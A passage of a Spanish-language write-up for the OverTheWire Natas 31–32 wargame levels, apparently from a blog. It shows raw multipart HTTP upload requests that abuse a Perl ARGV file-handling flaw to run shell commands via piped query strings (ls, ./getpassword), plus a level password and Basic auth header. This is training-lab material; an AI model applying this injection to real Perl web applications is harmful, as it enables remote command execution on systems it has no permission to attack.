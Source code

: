 ~~~
Content-Disposition: form-data; name=”file”; filename=”abc”

abcde
——WebKitFormBoundaryFgVNNE987xWnwuo7
Content-Disposition: form-data; name=”submit”

Upload
——WebKitFormBoundaryFgVNNE987xWnwuo7–
~~~

no1vohsheCaiv3ieH4em1ahchisainge

# Natas32
Un pequeño ajuste para incorporarlo a RCE

~~~
POST /index.pl?[code] HTTP/1.1
Host: natas32.natas.labs.overthewire.org
Content-Length: 384
Cache-Control: max-age=0
Authorization: Basic bmF0YXMzMjpubzF2b2hzaGVDYWl2M2llSDRlbTFhaGNoaXNhaW5nZQ==
Origin: http://natas32.natas.labs.overthewire.org
Content-Type: multipart/form-data; boundary=—-WebKitFormBoundaryRBTu3E1JQ8QW7zwK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,und;q=0.8
Connection: close

——WebKitFormBoundaryRBTu3E1JQ8QW7zwK
Content-Disposition: form-data; name=”file”

ARGV
——WebKitFormBoundaryRBTu3E1JQ8QW7zwK
Content-Disposition: form-data; name=”file”; filename=”abc”
Content-Type: text/plain

abcde
——WebKitFormBoundaryRBTu3E1JQ8QW7zwK
Content-Disposition: form-data; name=”submit”

Upload
——WebKitFormBoundaryRBTu3E1JQ8QW7zwK–
~~~

Debería ser algo como código%20para%20ejecutar%20|
primero ejecute ls%20.%20|  para encontrar un binario getpassword en la misma carpeta
Luego ejecute ./getpassword%20|  para obtener la contraseña

